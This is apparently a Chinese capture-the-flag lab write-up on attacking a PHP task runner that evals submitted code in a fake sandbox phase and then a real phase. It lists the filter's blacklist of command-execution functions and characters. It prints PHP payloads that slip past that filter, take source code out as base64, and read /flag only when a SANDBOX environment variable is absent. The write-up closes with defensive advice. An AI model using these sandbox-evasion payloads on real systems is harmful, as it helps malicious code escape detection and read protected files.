# 3-3 内网渗透与高级社工 · 免杀 payload 制作（反沙箱条件触发）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 内网渗透与高级社工-免杀payload制作-G3（sectionID 7265，实战 Flag 题 11233） |
| 分类 | Web 安全 / 免杀 payload 制作 / 反沙箱（anti-sandbox）条件触发 |
| 题目描述 | 目标是一个 PHP「自动化任务运行台」：用户提交 PHP 脚本，系统先在沙箱阶段试跑一遍，确认行为正常后再正式执行并回显结果。需要验证这套「先试后跑」的机制是否可靠，并读取服务器上的 flag。 |

Flag 题（questionID=11233）题干原文：

> 运维团队部署了一套自动化任务运行平台。据介绍，用户提交的脚本会先在沙箱中试运行一遍，确认行为正常后才会正式执行并返回结果。这套"先试后跑"的双重机制被认为十分可靠。你被指派来验证这个说法——请尝试获取服务器上的 flag。

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 国产化教学实训平台，课程 ID 1639（<https://vmc.hust.edu.cn>） |
| 章节 | 内网渗透与高级社工-免杀payload制作-G3（课程 number=12），sectionID `7265` |
| 环境 / 实例 | C082-G3-F（envID `1407`），podID `ugwpiy0uzolaijj8oop1x9i53`，交付时 state=Running |
| 靶机 Web | 「自动化任务运行」台 `http://172.17.0.13:13597/`（nginx + PHP 8.2.33，表单 `POST` 回本页，字段 `code`，脚本无需 `<?php` 标签） |
| SSH | `172.17.0.13:13594`（本机无口令，本次全程未使用；本题只需 Web 交互） |
| 靶机系统 | 容器 hostname `f61d1d930f82`，php-fpm pool `www`，`posix_geteuid()` 回显 `82`（www-data），提交的代码经 `eval()` 执行 |
| /flag | 权限 0644、uid=0、大小 38 字节 |
| 题型 | 3 道单选（11133 / 11135 / 11137）+ 1 道多选（11139）+ 1 道 Flag 填空（11233） |
| 账号 | 平台账号口令保存在本地未跟踪的 `.local/` 目录（不入库），本文不记录任何凭据 |
| 操作方式 | HTTP 表单提交 PHP 片段并观察回显，本地以辅助脚本 `python3 sub.py '<php code>'` 提交，等价于下方 curl；截图用 headless Chrome（playwright-core）采集 |
| 备注 | 4 道选择题与 Flag 题均已提交，`GET /api/student/get/answerHistory?sectionID=7265&contestMode=0` 复核 5 题 `isCorrect=true`（判分页见步骤 11）；按惯例本文不展开选择题解析 |

## 解题过程

### 1. 侦察任务运行台：三阶段流水线 + 单表单（截图 01）

首页标题「自动化任务运行」，正文自述处理流程为 `01 提交 → 02 沙箱隔离试跑 → 03 正式运行并回显`，表单只有一个 `code` 文本域，POST 回本页。提交统一走：

```bash
curl -sS --noproxy '*' -X POST http://172.17.0.13:13597/ --data-urlencode 'code=<code>'
```

先用最小样例确认代码确实被执行：

```text
提交: echo 1;                 → ✓ 执行完成 + 1
提交: echo gethostname();     → f61d1d930f82
提交: echo getcwd();          → /var/www/html
```

`gethostname()` 与 `getcwd()` 的回显与随后读源码得到的容器信息一致，说明这不是模拟输出，而是真实的服务端代码执行。



### 2. 静态黑名单枚举与绕过三件套（截图 02）

逐个提交 `echo "<词>";`，观察返回是 `✓ 执行完成` 还是 `✕ 提交内容未通过校验`，得到过滤轮廓（内容来自原始记录，命中情况如下表）：

| 类别 | 内容 | 结果 |
| --- | --- | --- |
| 危险函数名 | `system`、`exec`、`shell_exec`、`passthru`、`popen`、`proc_open` | 被拦 |
| 读文件关键词 | `flag`、`cat` | 被拦 |
| 特殊字符 | `/`、`\|`、`` ` ``、`$`、`>`、`<` | 被拦 |
| 未列入名单的函数 | `file_get_contents`、`readfile`、`scandir`、`getenv`、`chr`、`define`、`ini_get`、`posix_geteuid`、`json_encode`、`str_replace`、`assert`、`eval` | 放行 |
| 未列入名单的字符 | `&`、`=`、`;` 等 | 放行 |

典型失败样例：PHP 变量符号 `$` 被直接命中，`<?php` 标签也因此不可用（含 `<` 与 `$`）：

```text
提交: <?php echo 1;      → ✕ 提交内容未通过校验
提交: $x=1; echo $x;     → ✕ 提交内容未通过校验
```



由于 `$` 被禁，全程无法使用 PHP 变量，只能做「无变量编程」，绕过三件套为：

```php
chr(47)                          // 代替路径里的 '/'（字符码写法不含斜杠字符）
"fla"."g"                        // 代替敏感词 flag，运行时拼接复原
define("F", chr(47)."tmp")       // 代替变量保存中间结果，或直接嵌套函数调用
```

注意 `flag` 是**子串**命中：只要提交文本里出现连续三个字母 `f-l-a-g` 就被拒，与语义无关（`echo "flag";` 这种无危害写法同样过不了）。

### 3. 失败尝试：回显 index.php 源码触发「沙箱阶段被终止」（截图 03）

读文件函数可用，于是直接回显服务端源码：

```text
提交: echo file_get_contents(<index.php>);
结果: ✕ 沙箱阶段被终止，任务未执行
```

这是一个关键转折：**静态层没拦（`file_get_contents` 不在黑名单），却被另一个阶段拦下**，说明页面上写的「沙箱试跑」不是摆设，而且它的判定依据是脚本在沙箱里的**输出内容**——`index.php` 里含有字面量 `flag{`（判定语句本身），沙箱输出命中规则后直接终止。

为确认「终止即不再正式执行」，另做了一组带日志的实测：

```php
define("L", chr(47)."tmp".chr(47)."kill33.log");
file_put_contents(L, (getenv("SANDBOX") ? "sandbox-phase" : "real-phase")."\n", FILE_APPEND);
echo "fla"."g{";
```

回显 `✕ 沙箱阶段被终止，任务未执行`，日志文件只有一行 `sandbox-phase`；把回显改成正常文本后，日志变成 `sandbox-phase` + `real-phase` 两行——证明沙箱终止后确实不会再进入正式执行。

截图 03 用的是更直观的触发脚本，直接构造含 `flag{` 的输出命中沙箱规则（其中 `flag` 用拼接规避静态黑名单）：

```php
echo "fla"."g{";
```



调整思路：既然沙箱看的是输出，就不再让沙箱看到敏感字面量——先 `base64_encode` 再输出，或 `str_replace` 掩码后再回显（见步骤 6）。

### 4. 发现同一次请求把代码执行了两遍

写一个文件计数器脚本，观察每次提交后计数器的增量：

```php
define("F", chr(47)."tmp".chr(47)."cnt33");
file_put_contents(F, intval(@file_get_contents(F))+1);
echo "count=".file_get_contents(F)." host=".gethostname()." pid=".getmypid()." euid=".posix_geteuid()." cwd=".getcwd();
```

连续两次提交分别回显：

```text
count=2 pid=62
count=4 pid=64
```

每次请求计数器都 +2，即**一段代码在同一次请求中被执行了两次**：第一次是沙箱试跑，第二次是正式执行。再进一步确认页面回显的是第二次（正式）执行：

```php
define("F", chr(47)."tmp".chr(47)."m9");   // 原始记录此处路径缩写为 ...m9，对应 /tmp/m9
echo (file_exists(F) ? "PHASE2" : "PHASE1");
file_put_contents(F, "x");
```

回显 `PHASE2`，即页面展示的是正式阶段的输出（此时 `/flag` 也已能读出）。

### 5. 环境指纹：唯一可靠的分相标记是 SANDBOX 环境变量（截图 04）

既然要「沙箱阶段装正常、正式阶段才动手」，就必须找到能区分两个阶段的可靠特征。先写日志再读日志，两行分别来自两个阶段：

```php
define("L", chr(47)."tmp".chr(47)."phase33.log");
file_put_contents(L, (getenv("SANDBOX") ? "SANDBOX=1 (sandbox phase)" : "SANDBOX unset (real phase)")
                     ." , pid=".getmypid()."\n", FILE_APPEND);
echo "logged";
```

随后读回日志：

```php
echo file_get_contents(chr(47)."tmp".chr(47)."phase33.log");
```

```text
SANDBOX=1 (sandbox phase) , pid=62
SANDBOX unset (real phase) , pid=62
```

两阶段 `pid` 相同、`euid` 与 `cwd` 相同、共用同一文件系统，`disable_functions` / `open_basedir` 均为空——**唯一可靠的分相指纹就是环境变量 `SANDBOX`**：沙箱阶段 `putenv('SANDBOX=1')`，正式阶段 `putenv('SANDBOX')` 清除。



### 6. 泄漏源码：拿到沙箱判定规则（截图 05）

把源码整体 base64 外带，绕开沙箱对输出的字面量匹配：

```php
echo base64_encode(file_get_contents(chr(47)."var".chr(47)."www".chr(47)."html".chr(47)."index.php"));
```

本地解码得到 8221 字节源码，其中判定逻辑如下（按原文归纳，非逐字全文件）：

```php
$blacklist = ['system', 'exec', 'shell_exec', 'passthru', 'popen', 'proc_open',
              'cat', 'flag', '/', '|', '`', '$', '>', '<'];

// 第一层：静态关键词检测（strpos 命中即 blocked_static）
// 第二层：沙箱动态检测
putenv('SANDBOX=1');
ob_start();
try { eval($code); } catch (Throwable $e) {}
$sandbox_out = ob_get_clean();
putenv('SANDBOX');

if (strpos($sandbox_out, 'flag{') !== false) {
    $verdict = 'blocked_sandbox';       // ✕ 沙箱阶段被终止，任务未执行
} else {
    // 通过检测，真实环境执行
    ob_start();
    try { eval($code); } catch (Throwable $e) { echo '执行出错'; }
    $output = ob_get_clean();
    $verdict = 'passed';                // ✓ 执行完成
}
```

三个要点：

1. 同一进程内 `eval` 两次：第一次带 `putenv('SANDBOX=1')`（沙箱试跑），第二次前 `putenv('SANDBOX')` 清除标记（正式执行），两次共用同一文件系统与 pid——所以「沙箱」只是同一进程里的一个阶段，不存在真正的隔离；
2. 沙箱阶段的判定依据只有一条：试跑输出里是否出现字面量 `flag{`；
3. 静态黑名单同时封掉了 `/`、`$`、`<`、`>`、`|`、反引号，导致 PHP 变量、路径字面量与命令执行全部不可用，必须用步骤 2 的三件套绕。

截图 05 展示的是掩码版本（把触发词替换成 `lag_{MASKED}` 后再回显，避免二次触发沙箱）：

```php
echo str_replace("lag{", "lag_{MASKED}", substr(file_get_contents(chr(47)."var".chr(47)."www".chr(47)."html".chr(47)."index.php"),700,430));
```



### 7. 规则失效验证：直读 /flag 竟然也能通过（截图 06）

规则读明白后，先做一次「不做任何反沙箱处理」的对照——直接读 flag：

```php
echo file_get_contents(chr(47)."fla"."g");
```

```text
✓ 执行完成
vmc{Vo3kTSsaXunzE3XfKtS5sXhz6k3SWQrd}
```

居然通过了：沙箱判定只匹配字面量 `flag{`，而本题 flag 内容是 `vmc{...}`，与检测规则的格式天然不匹配——这是该检测设计的缺陷。这条路径被记录为机制缺陷证据；正式提交仍使用步骤 8 的环境指纹版 payload，因为它才是题目预期的「反沙箱条件触发」解法，不依赖规则的字符串巧合。



### 8. 反沙箱条件触发 payload 取 Flag（截图 07）

利用步骤 5 的分相指纹，让沙箱阶段只输出正常文本、正式阶段才读 flag：

```php
if (getenv("SANDBOX")) { echo "sandbox: task output looks normal"; } else { echo file_get_contents(chr(47)."fla"."g"); }
```

提交后服务端回显：

```text
✓ 执行完成
vmc{Vo3kTSsaXunzE3XfKtS5sXhz6k3SWQrd}
```

沙箱试跑阶段看到的是无害的 `sandbox: task output looks normal`，判定通过；正式执行阶段 `getenv("SANDBOX")` 为空，走 else 分支读出 flag。这是本题设计的预期解法：静态层看不到敏感字面量（`flag`、`/` 均被拆分/编码），动态层在沙箱里看不到恶意行为，恶意输出只在真实环境出现。



> 截图说明：为让截图同时展示「提交的脚本」与「服务端结果」，每次 POST 返回后由无头浏览器把同一段 payload 回填到 `#code` 文本域（结果区仍是服务端真实响应，未做改动）。

### 9. 失败尝试与调整思路汇总

| # | 尝试 | 现象 | 原因 | 调整 |
| --- | --- | --- | --- | --- |
| 1 | `<?php echo 1;` | ✕ 提交内容未通过校验 | `<?php` 含黑名单字符 `<`、`$` | 不写标签，直接提交裸 PHP 语句（服务端 `eval`） |
| 2 | `$x=1; echo $x;` | ✕ 提交内容未通过校验 | `$` 在黑名单里，PHP 变量完全不可用 | 用 `define()` 常量或直接函数调用替代变量 |
| 3 | `echo file_get_contents("/etc/hostname");` | ✕ 提交内容未通过校验 | `/` 在黑名单里，任何路径字面量都被拒 | 用 `chr(47)` 拼路径 |
| 4 | `echo "flag";` / `echo file_exists("/flag")?...` | ✕ 提交内容未通过校验 | `flag` 与 `/` 都是黑名单词 | `"fla"."g"` + `chr(47)` |
| 5 | `echo json_encode($_SERVER);` | ✕ 提交内容未通过校验 | `$` 被禁，超全局数组不可用 | 改用 `getenv()`、`get_defined_vars()`、`debug_backtrace()` |
| 6 | `echo json_encode(["a"=>1], JSON_PRETTY_PRINT);` | ✕ 提交内容未通过校验 | `=>` 含黑名单字符 `>` | 改用 list 结构 / 字符串拼接 |
| 7 | `system("id")`、`shell_exec`、反引号 | ✕ 提交内容未通过校验 | 命令执行函数与反引号均在黑名单 | 放弃命令执行，改用 `file_get_contents` 读文件 |
| 8 | `echo file_get_contents(<index.php>);` | ✕ 沙箱阶段被终止，任务未执行 | 源码里含有字面量 `flag{`（判定语句本身），沙箱输出命中规则 | 先 `base64_encode` 再输出；或 `str_replace` 掩码后再回显 |
| 9 | 用 `$sl=chr(47);` 做斜杠变量 | ✕ 提交内容未通过校验 | 仍是 `$` 赋值 | 直接用 `chr(47)` 内联拼接 |
| 10 | 直读 `/flag`（未做反沙箱处理） | ✓ 也能读出 flag | 沙箱规则只匹配 `flag{`，与 `vmc{...}` 格式不匹配，属检测设计缺陷 | 记录为机制缺陷证据；正式提交仍用环境指纹版 payload |

截图对应：第 2 条对应截图 02，第 8 条对应截图 03，第 10 条对应截图 06。整体思路演变是：**先摸静态黑名单边界 → 撞上沙箱输出检测 → 用「不改语义、只改文本形态」的手法绕静态 + 用环境指纹绕动态**。

### 10. 教学问答：反沙箱原理与加固（截图 08–12）

围绕本题主题向课程教学问答平台（Qwen2.5）提了 5 个问题，问答原文另存 `.local/process/3-3-qa-transcript.json`（会话 5222–5226）：

**问题 1：反沙箱原理、常见环境指纹，条件触发为何能同时规避动静态检测**（截图 08）——反沙箱是先判断自身是否处于分析环境再决定是否释放行为；常见指纹包括系统时间、文件系统、网络环境、硬件特征、注册表/环境变量、虚拟机痕迹；条件触发把「恶意输出」推迟到真实环境，静态层因此看不到危险特征。



**问题 2：`putenv()`/`getenv()` 的作用、环境变量继承，以及只用 `SANDBOX=1` 标记阶段的风险**（截图 09）——`putenv()` 修改当前进程环境并被所有子进程继承，`getenv()` 读取（不存在返回 `null`/`false`）；攻击者可直接读 `SANDBOX` 辨别所处阶段；应避免可被读取的显式标记，改用内核级隔离/独立容器与网络隔离。



**问题 3：动态沙箱常用技术，为何「输出匹配固定字符串」会失效**（截图 10）——常见手段是 API Hook、系统调用监控、输出与网络行为分析；固定字符串匹配可被编码/加密、动态拼接、混淆、多态与环境依赖绕过，且忽略非输出型恶意行为，必须多手段结合。



**问题 4：蓝队如何检测防御反沙箱载荷、这类「先试后跑」平台如何加固**（截图 11）——架构上多层沙箱、行为分析、资源隔离（网络/文件权限）、动静态结合、运行时实时监控；关键在于沙箱与生产使用同一可信基线、以独立实例与最小权限执行，而不是只比对输出。



**问题 5：静态免杀与反沙箱的区别联系，为何不能互相替代**（截图 12）——目标不同（代码层特征 vs 运行环境识别）、实现方式不同、检测范围与成本不同；两者面向不同检测层，必须分别处理，反沙箱无法消除代码里的静态特征（本题即先绕静态黑名单、再绕沙箱判定，两层缺一不可）。



### 11. 提交答案与平台判分（截图 13）

读取到 flag 后在平台一次性提交 5 题（下列命令摘录结构，flag 题字段为实际提交值）：

```bash
curl -sS -k --noproxy '*' -m 60 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE/api/student/submitAnswers" \
  -F "sectionID=7265" \
  -F 'answers={"questionID":11233,"answer":"{\"num\":3,\"answer\":[\"\",\"\",\"vmc{Vo3kTSsaXunzE3XfKtS5sXhz6k3SWQrd}\"]}"}' \
  -F "contestMode=0"
# code=0, msg=success
```

`GET /api/student/get/answerHistory?sectionID=7265&contestMode=0` 复核结果：

| questionID | 题型 | isCorrect |
| --- | --- | --- |
| 11133 | 单选 | true |
| 11135 | 单选 | true |
| 11137 | 单选 | true |
| 11139 | 多选 | true |
| 11233 | Flag 填空 | true |

平台答题页 5 题全部显示「作答正确」。顶层 `scoreRate` 常显示 0，属平台历史显示现象，判分以 `answerHistory.isCorrect` 为准；按惯例本文不展开选择题解析。



### 12. 靶机遗留物（未清理）

验证过程中只在容器 `/tmp` 下写入了标记与日志文件，未写入站点目录、未改动系统文件：

```text
/tmp/cnt33                                        # 两次执行计数器
/tmp/m1 /tmp/m2 /tmp/m9 /tmp/x1 /tmp/d1           # 分相与目录探测标记
/tmp/diag /tmp/diag2                              # 环境诊断
/tmp/log33 /tmp/log34                             # 分相指纹/扩展信息日志
/tmp/kill33.log /tmp/ok33.log                     # 沙箱终止与否的运行次数证据
/tmp/phase33.log                                  # 截图 04 用的两行指纹日志
```

实例交付时保持 Running（`saveTime` 约 3 小时，平台自动回收）；未使用 SSH 与终端驱动，无额外清理动作。

## Flag

```text
vmc{Vo3kTSsaXunzE3XfKtS5sXhz6k3SWQrd}
```

## 总结与心得

### 漏洞原理

1. **静态关键词黑名单 + `strpos` 子串匹配（第一层）**：过滤只看提交文本里有没有固定子串，不理解语义。于是「`chr(47)` 造 `/`」「`"fla"."g"` 拆分敏感词」「`<?php` 不写标签」这些纯文本层面的变形即可全部绕过；而它对无害写法（`echo "flag";`）又会误伤，既拦不准也拦不全。
2. **沙箱动态检测只匹配输出里的字面量 `flag{`（第二层）**：判定依据单一、且与本题 flag 格式（`vmc{...}`）不匹配，直接读 `/flag` 都能通过——说明这种检测既容易被「编码后输出」这类形态变化绕过，也会因为规则写死而漏检，属于设计缺陷（对应 AI 问答 3）。
3. **「沙箱」与生产实为同一进程的两个阶段，不是隔离**：两次 `eval` 共用同一文件系统、同一 pid、同一权限，仅靠 `putenv('SANDBOX=1')` / `putenv('SANDBOX')` 区分。阶段标记本身是**可读环境变量**，等于把「现在是沙箱还是生产」直接告诉被测代码，条件触发因此成立（对应 AI 问答 2、4）。
4. **根因仍是 `eval` 用户输入**：`ob_start()` 与 `try…catch` 只影响回显与报错，不构成安全边界；提交的代码以 `www-data`（uid=82）身份运行且能读 0644 的 `/flag`，说明敏感资产也没有做权限隔离。

### 做题方法

- **先探边界再动手**：用最小样例逐个探测黑名单（函数名、`flag`、`cat`、各种符号），很快归纳出「危险函数名 + 读文件关键词 + 路径与特殊符号」三类拦截项；
- **无变量编程绕黑名单**：`$` 被禁后全程不用 PHP 变量——`chr(47)` 拼路径、`"fla"."g"` 拼接敏感词、`define()` 存中间值、必要时直接嵌套函数调用；
- **注意「拦在第二层」的信号**：回显源码被「沙箱阶段被终止」而不是静态校验拒绝，说明存在动态判定；随后用计数器与日志确认「一次请求执行两遍」「终止后不再正式执行」；
- **找分相指纹**：对比两个阶段的 pid / euid / cwd / 文件系统都相同，唯一差异是 `getenv("SANDBOX")`，条件触发 payload 由此而来；
- **外带源码要避开输出检测**：`base64_encode` 打包后回显（或用 `str_replace` 掩码）才能在沙箱阶段安全地把 `index.php` 带出来，进而读到判定规则；
- **保留失败尝试的信息量**：静态被拦 → 换形态不改语义；动态被拦 → 先编码再输出；直读 `/flag` 意外通过 → 记录为规则缺陷证据，但仍以预期解法完成提交。

### 修复建议

- **沙箱与生产必须真正隔离**：不要在同一个进程里 `eval` 两遍，而应把试跑放进一次性容器/独立实例，且沙箱内不可见生产文件与凭据（如本题的 `/flag`）；
- **不要把阶段标记做成可读的环境变量**：显式 `SANDBOX=1` 等于给被测代码发信号；确需区分应通过不可见的隔离边界（独立命名空间、独立文件系统视图、独立网络）实现，而非进程内标志；
- **检测规则不要依赖单一固定字符串或固定输出关键词**：应结合行为监控（文件访问、子进程、外连）、系统调用与资源使用画像，并覆盖「编码/拼接/多态输出」这类形态变化；
- **最小权限运行 + 资产隔离**：解释执行用户代码的进程使用专用低权用户，`disable_functions`、`open_basedir`、只读根文件系统、CPU/内存/超时配额都要真正启用，flag/凭据不放在该进程可读路径；
- **限制文件与网络访问**：任务运行台通常只需要计算能力，应默认拒绝任意文件读取与外连，对异常读取（如 `/flag`、`/etc/*`）与可疑环境变量探测行为告警并留痕。

原始过程记录：`.local/process/3-3-ctf-process.md`；教学问答原文：`.local/process/3-3-qa-transcript.json`；复现脚本：`.local/process/3-3-scripts/`（`sub.py` 提交、`shots.mjs`/`shot07.mjs`/`qa_shots.mjs`/`vmc_grade.mjs` 截图）。
